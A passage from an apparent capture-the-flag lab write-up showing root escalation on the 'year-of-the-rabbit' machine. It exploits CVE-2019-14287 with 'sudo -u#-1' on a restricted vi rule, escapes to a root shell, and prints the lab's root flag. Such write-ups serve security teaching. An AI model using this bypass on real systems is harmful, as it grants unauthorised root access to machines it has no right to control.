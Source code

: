 # Escalation

Let's check Gwendoline's privileges:

~~~
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
~~~

We can run `/usr/bin/vi /home/gwendoline/user.txt` (owned by root) as any user but root, without password.

Let's exploit the CVE-2019-14287 vulnerability:

*"A flaw was found in the way sudo implemented running commands with arbitrary user ID. If a sudoers entry is written to allow the attacker to run a command as any user except root, this flaw can be used by the attacker to bypass that restriction."*

~~~
$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
~~~

Once in `vi`, use `:!/sh` to open a shell:

~~~
# whoami
root
# cd /root
# ls
root.txt
# cat ro	
cat: ro: No such file or directory
# cat root.txt
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
~~~

